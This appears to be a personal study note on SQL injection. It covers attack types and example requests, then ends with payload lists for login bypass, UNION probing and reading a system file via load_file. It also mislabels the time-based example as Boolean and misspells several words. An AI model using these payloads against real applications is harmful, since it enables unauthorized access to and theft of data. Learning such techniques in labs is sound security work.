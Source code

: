 #SQL Injection

* Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.

Impact of SQL Injection Attacks

* Unauthorized access to sensitive data
	
	* Confidentiality - SQLi can be used to viwe sensitive information, such as application username and passwords
	* Integirity - SQLi can be used to alter data in the database
	* Availability - SQLi can be used to delete data in the database

Types of SQL Injection
	
	* In-Band(classic)
		* Error
		* Union
	* Inferential(Blind)
		* Boolean
		* Time
	* Out-of-Bnad

Error-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id='

			Response:	
			You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version ...

Union-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=' UNION SELECT username, password FROM users--

			Response:	
			administrator
			carlos

Boolean-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=1 and 1=2

			Response:	
			False

			Request:
			www.target.com/app.php?id=1 and 1=1

			Response:	
			True

Boolean-Based SQLi 

	Example:
			If the first character of the admin's hashed passwd is an 'a', wait for 10 seconds.
				-> response takes 10 second -> first letter is 'a'
				-> response doesn't takes 10 second -> first letter is not 'a'

Out-of-band-Based SQLi 

	Example 

		will discuss...

Finding  SQLi Vulnerabilities

	* Submit SQL-specific characters such as ' or ", and look errors or other anomalies
	* Submit Boolean conditons such as OR 1=1 and OR 1=2, and look for differences in the applications responcses
	* Submit Payloads designed to trigger time delays when executed within a SQL query, and look for diffrences in the time taken to respond
	* Submit OAST Payloads designed to trigger out-of-band network interaction when executed within a SQL query, and monitor for any resulting interactions

Automated Exploitation Tool

	sqlmap (https://github.com/sqlmapproject/sqlmap)

Special Thanks : ???

Payloads

	'
	"
	)'
	)"
	')
	")
	'))
	"))

Login Bypass

	' or 1=1 --
	' or '1'='1
	' or 1=1 --+
	admin' or 1=1;#
	admin' or 1=1 LIMIT 1;#
	admin' or 1=1 LIMIT 0,1;#

Union Based SQL

	order by 1
	order by 2
	order by 3
	' UNION SELECT NULL --
	' UNION SELECT NULL,NULL --
	' UNION SELECT 1,2,3 -- -
	' UNION SELECT 1,load_file('/etc/password'),3 --

Resources:

	https://portswigger.net/web-security/sql-injection

Labs:

	https://portswigger.net/web-security/all-labs
	https://tryhackme.com/room/sqlilab

